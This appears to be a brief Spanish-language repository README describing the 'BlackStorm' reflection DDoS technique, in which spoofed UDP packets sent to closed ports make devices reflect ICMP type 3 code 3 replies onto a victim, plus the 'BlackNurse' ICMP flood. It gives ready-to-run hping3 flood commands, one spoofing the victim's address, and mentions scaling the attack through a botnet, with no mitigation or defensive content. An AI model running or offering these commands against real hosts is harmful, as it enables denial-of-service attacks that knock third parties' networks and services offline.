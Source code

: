 # blackstorm DDoS Atack

BlackStorm Ataque DDOS, inundación UDP a activos IP con filtrado que reflexionan respondiendo ICMP type 3 code 3 

El atacante genera paquetes UDP con IP origen falsificada y envia a puertos UDP cerrados de dispositivos que generan como respuesta reflexión con respuestas ICMP "Tipo3 Code3" de tipo inalcanzable, a la IP origen falsa especificada. - esto puede llegar a provocar una inundación, si se utiliza como desde una botnet  y con un gran volumen de equipos en los que reflectar hacia la víctima..



Ataque Black Storm

hping3 -2 --flood <ip> -p 53 --spoof  <ip_victima>
 
Ataque ICMP BlackNurse 

hping3 -1 -C 3 -K 3 --flood <ip>


www.hackingyseguridad.com



